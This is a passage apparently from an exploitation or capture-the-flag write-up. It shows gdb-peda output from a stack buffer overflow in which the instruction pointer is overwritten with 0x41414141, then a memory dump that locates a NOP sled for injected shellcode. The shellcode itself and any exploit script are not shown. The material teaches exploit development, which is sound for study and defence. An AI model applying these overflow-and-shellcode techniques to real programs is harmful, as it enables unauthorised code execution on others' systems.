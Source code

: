 ```
RDI: 0x1
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffdbc0 --> 0x37ffff1a0
RIP: 0x41414141 ('AAAA')
R8 : 0x0
R9 : 0x3a (':')
R10: 0x0
R11: 0x246
R12: 0x400930 (<_start>:        xor    ebp,ebp)
R13: 0x7fffffffe620 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdbc0 --> 0x37ffff1a0
0008| 0x7fffffffdbc8 --> 0x4ffffdd20
0016| 0x7fffffffdbd0 --> 0x0
0024| 0x7fffffffdbd8 --> 0x0
0032| 0x7fffffffdbe0 --> 0x0
0040| 0x7fffffffdbe8 --> 0x0
0048| 0x7fffffffdbf0 --> 0x0
0056| 0x7fffffffdbf8 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000041414141 in ?? ()
gdb-peda$
```

We have correctly overwritten SIP with `0x41414141`, as RIP is `0x0000000041414141`.

The shellcode is located at position `0x7fffffffdfd8`:
```
gdb-peda$ x/32x 0x7fffffffdf08
0x7fffffffdf08: 0x0000000000000000      0x0000000000000000
0x7fffffffdf18: 0x0000000000000000      0x0000000000000000
0x7fffffffdf28: 0x0000000000000000      0x0000000000000000
0x7fffffffdf38: 0x0000000000000000      0x0000000000000000
0x7fffffffdf48: 0x0000000000000000      0x0000000000000000
0x7fffffffdf58: 0x0000000000000000      0x0000000000000000
0x7fffffffdf68: 0x0000000000000000      0x0000000000000000
0x7fffffffdf78: 0x0000000000000000      0x0000000000000000
0x7fffffffdf88: 0x0000000000000000      0x0000000000000000
0x7fffffffdf98: 0x0000000000000000      0x0000000000000000
0x7fffffffdfa8: 0x0000000000000000      0x0000000000000000
0x7fffffffdfb8: 0x0000000000000000      0x0000000000000000
0x7fffffffdfc8: 0x0000000000000000      0x9090909090909090
0x7fffffffdfd8: 0x9090909090909090      0x9090909090909090
0x7fffffffdfe8: 0x9090909090909090      0x9090909090909090
0x7fffffffdff8: 0x9090909090909090      0x9090909090909090
```

